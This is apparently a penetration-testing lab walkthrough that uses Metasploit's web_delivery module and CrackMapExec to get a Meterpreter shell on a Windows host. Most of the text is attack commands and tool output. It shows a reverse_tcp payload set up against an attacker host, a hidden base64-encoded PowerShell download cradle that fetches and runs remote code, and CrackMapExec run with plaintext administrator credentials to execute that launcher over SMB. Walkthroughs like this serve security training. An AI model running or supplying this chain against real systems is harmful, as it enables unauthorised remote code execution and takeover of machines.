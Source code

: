 _Set up and configure the Metasploit `web_delivery` module to generate a payload that can be executed on the target machine. The payload will create a Meterpreter session back to the attacker's machine._

`msfconsole -q`

`search web_delivery`, `use exploit/multi/script/web_delivery`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.42.2`, `set LPORT 4444`, `show targets`, `set TARGET PSH`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.42.2:4444 
[*] Using URL: http://0.0.0.0:8080/gmzSnaa5rLqJwSj
[*] Local IP: http://10.10.42.2:8080/gmzSnaa5rLqJwSj
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABGAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZ

...

AGYAVwA5AEwARwBvAGUATAAnACkAKQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4ANAAyAC4AMgA6ADgAMAA4ADAALwBnAG0AegBTAG4AYQBhADUAcgBMAHEASgB3AFMAagAnACkAKQA7AA==
```

**Explanation:** The Metasploit `web_delivery` module generates a payload that, when executed on the target, opens a Meterpreter session. This provides a powerful interface for post-exploitation activities.

_Execute the web_delivery payload using CrackMapExec to open a Meterpreter session on the target._

`crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth -M web_delivery --options`:
```
[-] Failed loading module at /usr/lib/python3/dist-packages/cme/modules/slinky.py: No module named 'pylnk3'
[*] web_delivery module options:

        URL  URL for the download cradle ←
```

`crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth -M web_delivery -o URL=http://10.10.42.2:8080/gmzSnaa5rLqJwSj`:
```
[-] Failed loading module at /usr/lib/python3/dist-packages/cme/modules/slinky.py: No module named 'pylnk3'
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator:sebastian (Pwn3d!)
WEB_DELI... 10.4.23.124     445    EC2AMAZ-408S766  [+] Executed web-delivery launcher ←
```
